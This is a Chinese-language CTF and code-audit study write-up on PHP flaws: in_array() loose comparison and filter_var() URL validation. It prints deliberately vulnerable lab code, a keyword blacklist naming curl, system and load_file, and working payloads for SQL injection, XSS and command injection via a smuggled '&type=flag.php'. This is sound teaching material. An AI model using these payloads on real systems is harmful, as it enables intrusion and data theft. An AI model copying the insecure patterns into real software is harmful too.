

Day1
关于不正确使用in_array()检测文件上传文件名导致的任意文件上传
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
| <?php
$white_list = range(1,24);
if(!in_array($file,$white_list)){
die("请上传正确的文件格式!");
}else{
执行文件上传操作;
}
?>
|
在代码中，由于没有将in_array()的第三个参数设置为true，导致可以进行弱比较，也就是说，当任意上传文件7shell.php时，in_array()会将其转化为7，与$while_list进行比较，存在于$while_list中，因此可以导致任意文件的上传。这是因为没有将in_array()第三个参数设置为true导致的。
in_array()函数
查看in_array()的官方文档说明，该函数是用来检查$needle是否存在于$haytack数组中的。
如果第三个参数$stict没有被设置的话将使用比较宽松的比较，即php的弱比较类型。
如果第三个参数$stict被设置为true的话，将会比较$needle和$haystack的类型。
CTF题目
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39
40
41
42
43
44
45
46
47
48
49
50
51
52
53
54
55
56
57
|
<?php
include 'config.php';
$conn = new mysqli($servername, $username, $password, $dbname);
if ($conn->connect_error) {
die("连接失败: ");
}
$sql = "SELECT COUNT(*) FROM users";
$whitelist = array();
$result = $conn->query($sql);
if($result->num_rows > 0){
$row = $result->fetch_assoc();
$whitelist = range(1, $row['COUNT(*)']);
}
$id = stop_hack($_GET['id']);
$sql = "SELECT * FROM users WHERE id=$id";
if (!in_array($id, $whitelist)) {
die("id $id is not in whitelist.");
}
$result = $conn->query($sql);
if($result->num_rows > 0){
$row = $result->fetch_assoc();
echo "<center><table border='1'>";
foreach ($row as $key => $value) {
echo "<tr><td><center>$key</center></td><br>";
echo "<td><center>$value</center></td></tr><br>";
}
echo "</table></center>";
}
else{
die($conn->error);
}
?>
<?php
$servername = "localhost";
$username = "fire";
$password = "fire";
$dbname = "day1";
function stop_hack($value){
$pattern = "insert|delete|or|concat|concat_ws|group_concat|join|floor|\/\*|\*|\.\.\/|\.\/|union|into|load_file|outfile|dumpfile|sub|hex|file_put_contents|fwrite|curl|system|eval";
$back_list = explode("|",$pattern);
foreach($back_list as $hack){
if(preg_match("/$hack/i", $value))
die("$hack detected!");
}
return $value;
}
?>
|
代码中采用in_array()判断白名单，并且没有设置第三个参数：
if (!in_array($id, $whitelist)) {
die(“id $id is not in whitelist.”);
}
利用这个点可以尝试进行SQL注入：
1 and sleep(3);
发现回显延迟。
黑名单中过滤了很多的关键字，比如or(导致information无法用)、concat等，考虑报错注入，但是需要绕过concat，尝试搜索其他的连接查询的函数：
这里讨论make_set()的用法问题：
select make_set(‘1’,’a’,’b’,’c’,’d’);
在mysql中使用make_set，函数的第一个参数为字符串，后面的可以理解为回显位。当第一个参数为1时，根据其二进制的反过来的值，如果对应后面的位置为1的，将1上的内容显示出来：1的二进制为0001，反过来为1000，因此显示的为1所在位置的值a：
再比如2,2的二进制表示为0010，倒过来为0100，所以显示位为第二位,取对应值m:
1
2
| payload:
1 and updatexml(1,make_set(3,'~',(select database())),1);
|
这里尝试使用无列名注入绕过information，但是在使用的时候返回空，所以这里就直接尝试获取flag了。
1
| and updatexml(1,make_set(3,'~',(select flag from flag)),1)
|
参考文章
https://www.dazhuanlan.com/qwelf/topics/1100745
https://github.com/hongriSec/PHP-Audit-Labs/blob/master/Part1/Day1/files/README.md
Day2
filter_var函数缺陷
filter_var — 使用特定的过滤器过滤一个变量

第一个参数表示要过滤的内容；
第二个参数表示的是要使用的过滤器的id，也可以直接写值。
查看filter参数都定义了哪些值：
在菜鸟教程中可以看到定义了很多的值，像对url的过滤、email的过滤等。
在这里我们找到关于url的过滤选择器：
验证一个url是否符合要求。
用下面一段demo代码来解释：
1
2
3
4
5
6
7
8
9
| <?php
$url = filter_var($_GET['url'],FILTER_VALIDATE_URL);
var_dump($url);
$url = htmlspecialchars($url);
var_dump($url);
echo "<a href='$url'>Next slide </a>";
?>
|
首先第二行中使用了filter_var()函数对传进来的url进行过滤，url的内容可控，在最后一行，将url拼接到a标签中，点击跳转。
1
2
| ?url=javascript://comment%250aalert(1);
这是的payload用了%25，其实是%进行了url编码，%0a是换行符，//是在js中起到单行注释的作用，通过后面的%0a，就成功将alert(1)换到了不同行，因此alert函数能成功执行。用url编码成%25是因为get传递参数的时候，会先将其解析为javascript://comment%0aalert(1);然后传入到第二行代码中输出。
|
当我们使用JavaScript伪协议 时，整体构造符合filter_var()函数中FILTER_VALIDATE_URL)
过滤器对url的要求，并且在js中//起到单行注释的作用，会将后面的comment注释掉，%0a表示换行符，将后面的alert()函数换行，因此与//单行注释不在同一行，写入标签时，alert函数被执行，造成xss漏洞。
CTF题目
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
|
<?php
$url = $_GET['url'];
if(isset($url) && filter_var($url, FILTER_VALIDATE_URL)){
$site_info = parse_url($url);
if(preg_match('/sec-redclub.com$/',$site_info['host'])){
exec('curl "'.$site_info['host'].'"', $result);
echo "<center><h1>You have curl {$site_info['host']} successfully!</h1></center>
<center><textarea rows='20' cols='90'>";
echo implode(' ', $result);
}
else{
die("<center><h1>Error: Host not allowed</h1></center>");
}
}
else{
echo "<center><h1>Just curl sec-redclub.com!</h1></center><br>
<center><h3>For example:?url=http://sec-redclub.com</h3></center>";
}
?>
<?php
$flag = "HRCTF{f1lt3r_var_1s_s0_c00l}"
?>
|
parse_url()：解析 URL，返回其组成部分
如果第二个参数指定host的话，则返回host部分。
exec(): 执行外部的命令
第一个参数为所要执行的命令，第二个参数如果存在，则存放执行命令后返回的结果，以数组的形式存在。
1
| 在代码中，首先使用filter_var判断url的规范，然后使用parse_url函数对url进行解析，取解析到的host部分$site_info['host']该部分内容必须满足正则匹配以sec-redclub.com作为结束字符。满足以上条件，将参数$site_info['host']带入exec中执行命令，然后通过echo输出命令执行结果$result。
|
exec执行多条命令可以使用管道符进行拼接，这里我使用的是win环境：
windows下的命令连接符:&、&&（还有|、||）
&:
&前面的语句为假，则执行&后的语句，&前的语句为真，则&前后语句都执行。
&&:
&&前面的语句为假，则直接报错，后面的语句也不执行；&&前面的语句为真，则前后语句都执行。
1
2
3
4
| 首先需要绕过filter_var函数的检验，可以构造javascript://或者0://都可以，这里我选用javascript://。最后使用sec-redclub.com作为结束字符绕过正则匹配：JavaScript://[任意内容]sec-redclub.com
这里直接使用type指定文件，type=flag.php，使用"对exec('curl "'.$site_info['host'].'"', $result);语句进行拼接：
?url=javascript://"&type=flag.php&&"sec-redclub.com
得到exec(curl "javascript://"&type=flag.php&&"sec-redclub.com")
|
执行读取文件命令，得到flag：
参考文章
https://blog.csdn.net/qq_38850916/article/details/121332722
https://blog.csdn.net/weixin_43818995/article/details/104165124
https://github.com/hongriSec/PHP-Audit-Labs/blob/master/Part1/Day2/files/README.md